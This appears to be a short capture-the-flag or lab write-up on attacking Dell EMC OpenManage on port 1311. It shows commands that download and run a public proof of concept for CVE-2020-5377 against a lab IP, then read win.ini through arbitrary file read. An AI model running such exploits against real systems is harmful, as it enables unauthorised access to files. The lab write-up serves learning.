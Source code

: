 
# 1311/Dell EMC OpenManage(HTTPS)

it's the first time that i have to interact with such service:
	
![dell EMC OpenManage](./pic/openmanage.png)
	
To understand better the service i googled online for some known vulnerabilities or exploits.<br>
I eventually found [this beautifull article](https://rhinosecuritylabs.com/research/cve-2020-5377-dell-openmanage-server-administrator-file-read/) explaining the multiple vulnerabilities that the application suffered.<br>
In the bootom of the article there is also a link to their GitHub with a python POC, for Authentication Bypass and Arbitrary File Read.
I downloaded the poc and tested it:
```bash
wget https://raw.githubusercontent.com/RhinoSecurityLabs/CVEs/master/CVE-2020-5377_CVE-2021-21514/CVE-2020-5377.py
python3 CVE-2020-5377.py <your_vpn_ip> 10.10.112.204:1311
```
Once the script is running we can try to get a notorious LFI file in windows (a bit like /etc/passwd in linux):
	
![get C:/WINDOWS/win.ini](./pic/win_ini.png)
	
